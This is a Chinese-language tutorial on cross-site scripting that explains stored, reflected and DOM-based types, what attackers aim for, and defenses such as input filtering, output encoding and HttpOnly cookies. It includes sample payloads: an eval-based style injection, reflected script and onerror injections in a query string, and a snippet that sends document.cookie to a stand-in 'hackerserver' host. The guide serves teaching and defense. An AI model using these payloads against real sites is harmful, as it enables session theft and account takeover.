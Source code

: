 
跨站脚本攻击(Cross Site Scripting)
XSS攻击是Web攻击中最常见的攻击方法之一，它是通过对网页注入可执行代码且成功地被浏览器 执行，达到攻击的目的，形成了一次有效XSS攻击，一旦攻击成功，它可以获取用户的联系人列表，然后向联系人发送虚假诈骗信息，可以删除用户的日志等等，有时候还和其他攻击方式同时实 施比如SQL注入攻击服务器和数据库、Click劫持、相对链接劫持等实施钓鱼，它带来的危害是巨 大的，是web安全的头号大敌。

# 类型
从攻击代码的工作方式可以分为三个类型：
（1）持久型跨站：最直接的危害类型，跨站代码存储在服务器（数据库）。
（2）非持久型跨站：反射型跨站脚本漏洞，最普遍的类型。用户访问服务器-跨站链接-返回跨站代码。
（3）DOM跨站（DOM XSS）：DOM（document object model文档对象模型），客户端脚本处理逻辑导致的安全问题。
基于DOM的XSS漏洞是指受害者端的网页脚本在修改本地页面DOM环境时未进行合理的处置，而使得攻击脚本被执行。在整个攻击过程中，服务器响应的页面并没有发生变化，引起客户端脚本执行结果差异的原因是对本地DOM的恶意篡改利用。

# 根据XSS攻击的效果可以分为几种类型

- XSS反射型攻击，恶意代码并没有保存在目标网站，通过引诱用户点击一个链接到目标网站的恶意链接来实施攻击的。
- XSS存储型攻击，恶意代码被保存到目标网站的服务器中，这种攻击具有较强的稳定性和持久性，比较常见场景是在博客，论坛等社交网站上，但OA系统，和CRM系统上也能看到它身影，比如：某CRM系统的客户投诉功能上存在XSS存储型漏洞，黑客提交了恶意攻击代码，当系统管理员查看投诉信息时恶意代码执行，窃取了客户的资料，然而管理员毫不知情，这就是典型的XSS存储型攻击。

# 攻击方式
常用的XSS攻击手段和目的有：
1、盗用cookie，获取敏感信息。
2、利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
3、利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作。
4、利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
5、在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果。


# 攻击的条件
实施XSS攻击需要具备两个条件：

- 需要向web页面注入恶意代码；
- 这些恶意代码能够被浏览器成功的执行。

看一下下面这个例子：
```
  <div id="el" style="width:100px;height:100px;background:url('javascript:eval(document.getElementById(" el ").getAttribute("code ")) ')" code="var a = document.createElement('a');
    a.innerHTML= '执行了恶意代码';document.body.appendChild(a);"></div>
```
这段代码在旧版的IE8和IE8以下的版本都是可以被执行的，火狐也能执行代码，但火狐对其禁止访问DOM对象，所以在火狐下执行将会看到控制里抛出异常：document is not defined （document是没有定义的）

反射型的XSS攻击
```
<div>
  <img src="/images/handler.ashx?id=<%= Request.QueryString["id"] %>" />
</div>
```
当输入地址为`http://www.xxx.com/?id=" /><script>alert(/xss/)</script><br x="`时
```
<div>
  <img src="/images/handler.ashx?id=" /><script>alert(/xss/)</script><br x="" />
</div>
```
把ValidateRequest设置为true或者保持默认值并不能解决这个问题，这种情况还可以输入下面的地址达到相同的攻击效果：
```
http://www.xxx.com/?id=xx" onerror="this.onload()" onload="alert(/xss/)" x="
```

# XSS攻击能做些什么
1.窃取cookies，读取目标网站的cookie发送到黑客的服务器上，如下面的代码：
```
var i=document.createElement("img");
document.body.appendChild(i);
i.src = "http://www.hackerserver.com/?c=" + document.cookie;
```
2.读取用户未公开的资料，如果：邮件列表或者内容、系统的客户资料，联系人列表等等

# 解决方法
- 在表单提交或者url参数传递前，对需要的参数进行过滤
- 过滤用户输入的 检查用户输入的内容中是否有非法内容。如`<>`（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出


# 防御方法
(1)基于特征的防御。XSS漏洞和著名的SQL注入漏洞一样，都是利用了Web页面的编写不完善，所以每一个漏洞所利用和针对的弱点都不尽相同。这就给XSS漏洞防御带来了困难，不可能以单一特征来概括所有XSS攻击。
传统的XSS防御在进行攻击鉴别时多采用特征匹配方式，主要是针对“javascript”这个关键字进行检索，但是这种鉴别不够灵活，凡是提交的信息中各有“javascript”时，就被硬性的被判定为XSS攻击。
(2)基于代码修改的防御。Web页面开发者在编写程序时往往会出现一些失误和漏洞，XSS攻击正是利用了失误和漏洞，因此一种比较理想的方法就是通过优化Web应用开发来减少漏洞，避免被攻击：
1)用户向服务器上提交的信息要对URL和附带的的HTTP头、POST数据等进行查询，对不是规定格式、长度的内容进行过滤。
2)实现Session标记（session tokens）、CAPTCHA系统或者HTTP引用头检查，以防功能被第三方网站所执行。
3)确认接收的的内容被妥善的规范化，仅包含最小的、安全的Tag（没有javascript），去掉任何对远程内容的引用（尤其是样式表和javascript），使用HTTP only的cookie。
当然，如上操作将会降低Web业务系统的可用性，用户仅能输入少量的制定字符，人与系统间的交互被降到极致，仅适用于信息发布型站点。并且考虑到很少有Web编码人员受过正规的安全培训，很难做到完全避免页面中的XSS漏洞。
(3)客户端分层防御策略。客户端跨站脚本攻击的分层防御策略是基于独立分配线程和分层防御策略的安全模型。它建立在客户端(浏览器)，这是它与其他模型最大的区别，之所以客户端安全性如此重要，客户端在接受服务器信息，选择性的执行相关内容。这样就可以使防御XSS攻击变得容易，该模型主要由三大部分组成：
1)对每一个网页分配独立线程且分析资源消耗的“网页线程分析模块”；
2)包含分层防御策略四个规则的用户输入分析模块；
3)保存互联网上有关XSS恶意网站信息的XSS信息数据库。 

XSS攻击主要是由程序漏洞造成的，要完全防止XSS安全漏洞主要依靠程序员较高的编程能力和安全意识，当然安全的软件开发流程及其他一些编程安全原则也可以大大减少XSS安全漏洞的发生。这些防范XSS漏洞原则包括：
（1）不信任用户提交的任何内容，对所有用户提交内容进行可靠的输入验证，包括对URL、查询关键字、HTTP头、REFER、POST数据等，仅接受指定长度范围内、采用适当格式、采用所预期的字符的内容提交，对其他的一律过滤。尽量采用POST而非GET提交表单；对“`<`”，“`>`”，“`；`”，“`”`”等字符做过滤；任何内容输出到页面之前都必须加以en-code，避免不小心把htmltag显示出来。
（2）实现Session 标记（session tokens）、CAPTCHA（验证码）系统或者HTTP引用头检查，以防功能被第三方网站所执行，对于用户提交信息的中的img等link，检查是否有重定向回本站、不是真的图片等可疑操作。
（3）cookie 防盗。避免直接在cookie中泄露用户隐私，例如email、密码，等等；通过使cookie和系统IP绑定来降低cookie泄露后的危险。这样攻击者得到的cookie没有实际价值，很难拿来直接进行重放攻击。
（4）确认接收的内容被妥善地规范化，仅包含最小的、安全的Tag（没有JavaScript），去掉任何对远程内容的引用（尤其是样式表和JavaScript），使用HTTPonly的cookie。 



